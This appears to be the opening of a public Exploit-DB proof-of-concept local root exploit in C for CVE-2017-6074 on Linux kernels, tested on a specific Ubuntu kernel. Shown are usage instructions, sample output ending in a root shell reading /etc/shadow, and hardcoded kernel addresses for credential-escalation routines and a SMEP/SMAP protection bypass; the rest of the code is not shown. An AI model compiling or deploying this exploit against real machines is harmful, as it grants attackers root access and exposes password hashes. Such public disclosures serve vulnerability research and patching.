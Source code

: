 EXP
---

    //
    // EDB Note: More information ~ http://seclists.org/oss-sec/2017/q1/471
    //
    // A proof-of-concept local root exploit for CVE-2017-6074.
    // Includes a semireliable SMAP/SMEP bypass.
    // Tested on 4.4.0-62-generic #83-Ubuntu kernel.
    // https://github.com/xairy/kernel-exploits/tree/master/CVE-2017-6074
    //
    // Usage:
    // $ gcc poc.c -o pwn
    // $ ./pwn
    // [.] namespace sandbox setup successfully
    // [.] disabling SMEP & SMAP
    // [.] scheduling 0xffffffff81064550(0x406e0)
    // [.] waiting for the timer to execute
    // [.] done
    // [.] SMEP & SMAP should be off now
    // [.] getting root
    // [.] executing 0x402043
    // [.] done
    // [.] should be root now
    // [.] checking if we got root
    // [+] got r00t ^_^
    // [!] don't kill the exploit binary, the kernel will crash
    // # cat /etc/shadow
    // ...
    // daemon:*:17149:0:99999:7:::
    // bin:*:17149:0:99999:7:::
    // sys:*:17149:0:99999:7:::
    // sync:*:17149:0:99999:7:::
    // games:*:17149:0:99999:7:::
    // ...
    //
    // Andrey Konovalov <andreyknvl@gmail.com>
    #define _GNU_SOURCE
    #include <errno.h>
    #include <fcntl.h>
    #include <stdarg.h>
    #include <stdbool.h>
    #include <stddef.h>
    #include <stdint.h>
    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
    #include <unistd.h>
    #include <sched.h>
    #include <sys/socket.h>
    #include <sys/syscall.h>
    #include <sys/types.h>
    #include <sys/wait.h>
    #include <arpa/inet.h>
    #include <linux/if_packet.h>
    #include <netinet/if_ether.h>
    #define SMEP_SMAP_BYPASS    1
    // Needed for local root.
    #define COMMIT_CREDS        0xffffffff810a2840L
    #define PREPARE_KERNEL_CRED    0xffffffff810a2c30L
    #define SHINFO_OFFSET        1728
    // Needed for SMEP_SMAP_BYPASS.
    #define NATIVE_WRITE_CR4    0xffffffff81064550ul
    #define CR4_DESIRED_VALUE    0x406e0ul